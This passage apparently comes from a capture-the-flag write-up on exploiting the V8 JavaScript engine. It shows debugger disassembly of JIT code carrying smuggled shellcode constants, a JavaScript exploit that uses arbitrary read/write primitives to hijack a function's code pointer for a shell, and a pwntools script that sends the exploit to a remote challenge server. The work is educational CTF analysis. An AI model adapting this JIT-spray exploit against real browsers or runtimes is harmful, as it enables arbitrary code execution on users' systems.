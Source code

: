 ```
   0x5554c0008f20:      jbe    0x5554c0009036
   0x5554c0008f26:      mov    rcx,QWORD PTR [r13+0xce30]
   0x5554c0008f2d:      lea    rdi,[rcx+0x50]
   0x5554c0008f31:      cmp    QWORD PTR [r13+0xce38],rdi
   0x5554c0008f38:      jbe    0x5554c0009066
   0x5554c0008f3e:      lea    rdi,[rcx+0x40]
   0x5554c0008f42:      mov    QWORD PTR [r13+0xce30],rdi
   0x5554c0008f49:      add    rcx,0x1
   0x5554c0008f4d:      mov    r8,QWORD PTR [r13+0x288]
   0x5554c0008f54:      mov    DWORD PTR [rcx-0x1],r8d
   0x5554c0008f58:      mov    DWORD PTR [rcx+0x3],0xe
   0x5554c0008f5f:      movabs r10,0xceb586e69622f68
   0x5554c0008f69:      vmovq  xmm0,r10
   0x5554c0008f6e:      vmovsd QWORD PTR [rcx+0x7],xmm0
   0x5554c0008f73:      movabs r10,0xceb5b0068732f68
   0x5554c0008f7d:      vmovq  xmm0,r10
   0x5554c0008f82:      vmovsd QWORD PTR [rcx+0xf],xmm0
   0x5554c0008f87:      movabs r10,0xceb909020e3c148
gef➤  x/5i 0x00005554c0008f00+0x60
   0x5554c0008f60:      mov    edx,0x69622f68
   0x5554c0008f65:      outs   dx,BYTE PTR ds:[rsi]
   0x5554c0008f66:      pop    rax
   0x5554c0008f67:      jmp    0x5554c0008f75
   0x5554c0008f69:      vmovq  xmm0,r10
gef➤  x/5i 0x00005554c0008f00+0x61
   0x5554c0008f61:      push   0x6e69622f
   0x5554c0008f66:      pop    rax
   0x5554c0008f67:      jmp    0x5554c0008f75
   0x5554c0008f69:      vmovq  xmm0,r10
   0x5554c0008f6e:      vmovsd QWORD PTR [rcx+0x7],xmm0
```

Interestingly the `inst` offset is also off by `1`. Thus the patched code becomes

```js
console.log(addrof(f).toString(16));
%DebugPrint(f);

let code = aar(addrof(f) + 0x18n) & 0xffffffffn;
console.log("code = " + code.toString(16));
let inst = aar(code + 0x10n) + 0x61n;
aaw(code + 0x10n, inst);
console.log("inst = " + inst.toString(16));
%SystemBreak();
```

With this we can already obtain a local shell. However there seems to be a problem on the remote server:

```python
from pwn import *
from base64 import b64encode

with open('./solve.js') as f:
    raw = f.read().replace('\r', '')

p = remote('[REDACTED]', -1)
p.sendline(b64encode(raw.encode()))

p.interactive()
```
